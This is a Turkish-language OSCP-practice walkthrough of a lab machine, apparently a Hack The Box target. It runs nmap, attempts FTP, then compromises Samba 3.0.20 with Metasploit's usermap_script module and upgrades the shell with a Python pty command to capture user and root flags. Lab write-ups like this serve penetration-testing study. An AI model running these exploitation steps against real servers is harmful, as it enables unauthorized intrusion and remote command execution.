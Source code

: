# OSCP_Preparation

Makine IP: 10.129.86.76 

 Hemen nmap çalıştırıyorum ve bizi neler bekliyor görmek için sabırsızlanıyorum.

```console
Nmap -A 10.129.86.76  
```
 
![image](./assets/5.PNG)

https://www.exploit-db.com/exploits/17491 - FTP versiyonunda Command Execution açığı olduğu görülüyor. 

FTP’den girmeyi denedim. 

```console
tcp> open 

(to) 10.129.86.76  
```

![image](./assets/6.PNG)


PASV FTP, Dosya Aktarım Protokolü (FTP) bağlantılarını kurmak için alternatif bir moddur. Kısacası, bir FTP istemcisinin gelen bağlantılarını engelleyen güvenlik duvarı sorununu çözmektedir. Pasif FTP, bir güvenlik duvarının arkasındaki FTP istemcileri için tercih edilen bir FTP modudur. 
 
Ftp'den devam edemediğim için samba da ilgili versiyonda açık olup olmadığına bakıyorum. 
 
445 portunda samba çalıştığını gördüm ve searchsploit ile araştırdım.

![image](./assets/7.PNG)
 
```console
msf6 > search samba 3.0.20 
```

![image](./assets/1.PNG)

Command Execution açıklığı olduğunu gördükten sonra exploitimi hazırlamaya başlıyorum.

  
```console
msf6 > use exploit/multi/samba/usermap_script 
```

![image](./assets/2.PNG)

 
```console
msf6 exploit(multi/samba/usermap_script) > set RPORT 445 
```
 Burada dikkat edilmesi gereken kısım port. Nmap ile elde ettiğimiz sonucu unutmadan devam ediyoruz.

Ve en sevilen kısım EXPLOİT ! Enter..
```console
msf6 exploit(multi/samba/usermap_script) > exploit 
```
![image](./assets/3.PNG)

Başarılı olduk. Şimdi TTY shell alalım işimiz kolay olsun.
  
```console
python -c 'import pty; pty.spawn("/bin/sh")' 
```

![image](./assets/4.PNG)


Hem user hem root flag'ini almış bulunuyoruz :)
 

 

 

